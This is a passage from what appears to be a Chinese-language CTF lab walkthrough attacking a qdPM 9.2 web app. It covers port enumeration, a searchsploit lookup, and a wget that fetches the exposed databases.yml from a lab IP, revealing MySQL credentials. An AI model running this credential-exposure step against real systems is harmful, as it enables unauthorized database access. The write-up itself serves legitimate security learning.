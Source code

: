 > 获得目标端口信息：
> 
> - 22               openSSH 8.4p1 Debian 5 (protocol 2.0)
> 
> - 80/tcp        open http Apache httpd 2.4.48 ((Debian))
> 
> - 3306/tcp    open mysql MySQL 8.0.26
> 
> 分析：关于ssh和mysql的账户密码信息什么都没有，暴力破解无从着手。从端口80作为切入点比较合适。

### 3. 针对80端口收集网站信息

* 发现登录系统qdPM 9.2，要求邮箱作为账号登录。进入qdPM官网后发现其是个管理系统。官网原文描述为：Free Web-Based Project Management Software (PHP/MySql)
- 查询该系统版本的相关漏洞
  
  ```bash
  ┌──(root㉿kali)-[~/ica1]
  └─# searchsploit qdPM 9.2
  ------------------------------------------------------------------------
   Exploit Title                                  |  Path
  ------------------------------------------------------------------------
  qdPM 9.2 - Cross-site Request Forgery (CSRF)    | php/webapps/50854.txt
  qdPM 9.2 - Password Exposure (Unauthenticated)  | php/webapps/50176.txt
  ------------------------------------------------------------------------
  Shellcodes: No Results
  Papers: No Results
  ```

- 发现可利用漏洞，可得数据密码信息。
  
  ```bash
  ┌──(root㉿kali)-[~/ica1]
  └─# cat /usr/share/exploitdb/exploits/php/webapps/50176.txt
  # Exploit Title: qdPM 9.2 - DB Connection String and Password Exposure (Unauthenticated)
  # Date: 03/08/2021
  # Exploit Author: Leon Trappett (thepcn3rd)
  # Vendor Homepage: https://qdpm.net/
  # Software Link: https://sourceforge.net/projects/qdpm/files/latest/download
  # Version: 9.2
  # Tested on: Ubuntu 20.04 Apache2 Server running PHP 7.4
  
  The password and connection string for the database are stored in a yml file. To access the yml file you can go to http://<website>/core/config/databases.yml file and download.                                                      
  ```

- 按照说明获取`yml`文件
  
  ```bash
  wget http://192.168.1.111/core/config/databases.yml
  ```
  
  内容如下：
  
  ```bash
  all:
   doctrine:
   class: sfDoctrineDatabase
   param:
   dsn: 'mysql:dbname=qdpm;host=localhost'
   profiler: false
   username: qdpmadmin
   password: "<?php echo urlencode('UcVQCMQk2STVeS6J') ; ?>"
   attributes:
   quote_identifier: true
  ```
  